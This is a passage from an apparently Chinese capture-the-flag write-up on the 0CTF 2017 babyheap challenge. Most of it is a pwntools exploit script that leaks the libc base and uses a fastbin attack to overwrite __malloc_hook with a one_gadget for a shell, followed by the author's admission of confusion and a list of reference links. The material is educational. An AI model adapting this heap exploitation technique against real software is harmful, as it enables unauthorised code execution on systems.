 ```python  
    delete(1)
    payload = "a"*0x90 + p64(0) + p64(0x141)
    edit(0,len(payload),payload)
    add(0x130) # 1
    payload = "a"*0x90 + p64(0) + p64(0xa1)
    edit(1,len(payload),payload)
    delete(2)
    show(1)
    #gdb.attach(p)
    p.recv(0xa0)
    libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x3c4b78
    log.success("libc_base==>" + hex(libc_base))
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    add(0x90) # 2
    add(0x60) # 4
    add(0x60) # 5
    delete(5)
    payload = "a"*0x60 + p64(0) + p64(0x71) + p64(malloc_hook-0x23)
    edit(4,len(payload),payload)
    add(0x60) # 5
    add(0x60) # 6
    #gdb.attach(p)
    one_gadget = libc_base + 0x4526a
    payload = "a"*0x13 + p64(one_gadget)
    edit(6,len(payload),payload)
    add(0x10)
    p.interactive()
exp()
```  
这个手法虽然看了很多文章，包括这个题wp也看了有很多篇，但是还是有点模模糊糊，不是很明白  
如果有什么说错了的地方，希望师傅们能纠正  
参考链接：  
https://xz.aliyun.com/t/7490  
https://thriumph.top/babyheap-0ctf-2017-fastbin-attack.html   
https://aryb1n.github.io/2018/07/06/0ctf2017-babyheap/  
https://bbs.pediy.com/thread-246786.htm  
https://www.dazhuanlan.com/2019/10/16/5da734c818cb3/  